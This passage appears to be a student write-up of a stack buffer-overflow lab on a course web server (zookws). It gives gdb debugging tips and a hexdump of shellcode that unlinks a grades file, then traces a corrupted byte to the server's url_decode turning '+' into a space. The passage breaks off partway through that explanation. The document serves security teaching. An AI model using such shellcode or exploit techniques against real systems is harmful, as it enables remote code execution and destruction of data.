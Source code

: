> A little note on debugging on Exercise 2: 
> 
> The debugging process typically requires 3 bash shells: one for starting the server, one for sending exploited codes, one for debug the zookfs process.
>
> First, start the serve. Second, run gdb -p $(pgrep zookfs-exstack), and set a break point on where you want to debug, and type continue. Third, send the exploit code and you will see the gdb bash shell is ready for debugging. 
> 
> (If you need to debug zookd process, open another shell and run gdb -p $(pgrep zookd-exstack), remember to run this gdb process before zookfs)

    However, if we run the process above, we still do not get the PASS result. How is this? After some painful debugging process, I found out the pretty imperceptible bug. The process is shown below.
    
    Using the shellcode.S above, and we ran the hexdump command to see its hexadecimal results, we get

    ```bash
    httpd@vm-6858:~/lab$ hexdump -C shellcode.bin 
    00000000  eb 28 5e 89 76 27 8d 5e  10 89 5e 2b 31 c0 88 46  |.(^.v'.^..^+1..F|
    00000010  0f 88 46 26 89 46 2f b0  0b 89 f3 8d 4e 27 8d 56  |..F&.F/.....N'.V|
    00000020  2f cd 80 31 db 89 d8 40  cd 80 e8 d3 ff ff ff 2f  |/..1...@......./|
    00000030  75 73 72 2f 62 69 6e 2f  75 6e 6c 69 6e 6b 41 2f  |usr/bin/unlinkA/|
    00000040  68 6f 6d 65 2f 68 74 74  70 64 2f 67 72 61 64 65  |home/httpd/grade|
    00000050  73 2e 74 78 74                                    |s.txt|
    00000055
    ```

    This looks pretty normal, right? But, if we use gdb to see the execution of our exploited code, we get a instruction as following

    ```bash
    0xbfffdbfd      mov    %ebx,0x20(%esi)
    ```

    This byte representation of this instruction is 

    ```
    89 5e 20
    ```

    However, in our shellcode.bin, the instruction should be

    ```
    89 5e 2b
    ```

    The inconsistency here makes the instruction incorrect, thus making our code not execute in the right way. Why is this?

    We can answer by looking at the 'url_decode' function

    ```c
    else if (src[0] == '+')
    {
        *dst = ' ';
        src++;
    }
    ```
